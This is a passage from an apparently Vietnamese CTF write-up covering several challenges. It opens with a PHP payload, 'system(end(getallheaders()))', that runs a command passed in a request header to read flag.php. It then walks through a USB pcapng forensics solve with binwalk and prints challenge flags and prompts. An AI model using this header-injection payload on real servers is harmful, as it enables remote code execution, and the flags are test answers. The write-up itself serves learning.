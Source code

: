hoặc có thể sử dụng system

```
X: cat flag.php

system(end(getallheaders()))
```

![](/assets/data/2025-09-06-14-08-59.png)

## dogfinder

> I like dogs, so I wrote this awesome dogfinder page. Somewhere on the filesystem is a nice treat for you.

# misc

## usbstorage

> I attached my friend's USB drive to my laptop and accidently copied a private file, which I immediately deleted. But my friend still somehow got the file from looking at the USB message their drive recorded...

Trong phần đính kèm, có cung cấp tệp pcapng với thông báo USB Mass Storage:

Sử dụng `binwalk` để trích xuất tệp được truyền qua `USB`

```
binwalk -e usbstorage.pcapng

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
1343984       0x1481F0        gzip compressed data, from Unix, last modified: 1970-01-01 00:00:00 (null date)
```

```
$tar -xvf 1481F0.tar
flag.gz

$gunzip flag.gz

$cat flag
ENO{USB_STORAGE_SHOW_ME_THE_FLAG_PLS}
```

## atruecryptographer

> You know what I like most? Nullcon aftermovies and Kerckhoffs's principle! But since I'm a true cryptographer and a 1337 h4xx0r, I can even provide you my password without you ever finding my secrets: U"gkXYg;^#qXxJ(jm\*jKik|N/gezj7)z<br>
> My question is: Are you a true cryptographer, too? Prove it by finding my secret!
